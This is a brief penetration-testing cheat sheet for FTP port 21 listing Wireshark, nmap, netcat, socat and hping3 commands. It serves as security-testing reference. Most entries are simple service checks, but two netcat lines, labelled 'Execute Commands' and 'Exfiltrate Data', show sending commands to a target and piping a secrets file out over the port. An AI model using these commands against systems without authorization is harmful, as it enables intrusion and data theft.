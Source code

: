 ### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 21"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 21
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 21
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 21 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 21
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 21 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:21
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 21 -c 1
    ```
